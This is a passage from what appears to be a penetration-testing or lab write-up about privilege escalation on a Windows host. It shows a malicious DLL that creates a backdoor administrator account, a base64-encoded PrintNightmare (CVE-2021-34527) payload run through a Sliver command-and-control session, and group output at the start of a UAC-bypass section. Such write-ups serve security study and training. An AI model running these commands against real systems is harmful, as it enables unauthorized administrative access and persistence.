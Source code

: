 ```C#
  	    i = system ("net user johnsmith Password123! /add");
  	    i = system ("net localgroup administrators johnsmith /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Using runas, I launched puppet-update.exe with the new johnsmith user:
```Bash
# Encode the command
str='Invoke-Nightmare -DLL "C:\Windows\tasks\servzer.dll"'
echo -en "$str" | iconv -t UTF-16LE | base64 -w 0

#Execute the payload
sliver (puppet-mtls) > sharpsh -i -s -t 300 -- --uri c:\\windows\\tasks\\CVE-2021-34527.ps1 -e -c SQBuAHYAbwBrAGUALQBOAGkA----SNIP---------AGUAcgB2AHoAZQByAC4AZABsAGwAIgA=

```
## UAC Bypass
Although our user is part of local administrator it doesnt have all the necessary rights and this is due to UAC in the machine.
```Powershell
GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
FILE01\None                                       Group                    S-1-5-21-2946821189-2073930159-359736154-513  Mandatory group, Enabled by default, Enabled group, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Local account and member of Administrators groupWell-known group         S-1-5-114                                     
BUILTIN\Administrators                            Alias                    S-1-5-32-544                                  
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group, 
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Local account                        Well-known group         S-1-5-113                                     Mandatory group, Enabled by default, Enabled group, 
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\NTLM Authentication                  Well-known group         S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group, 
Mandatory Label\Medium Mandatory Level            Label                    S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group, 


Privilege Name                Description                                       State                         
```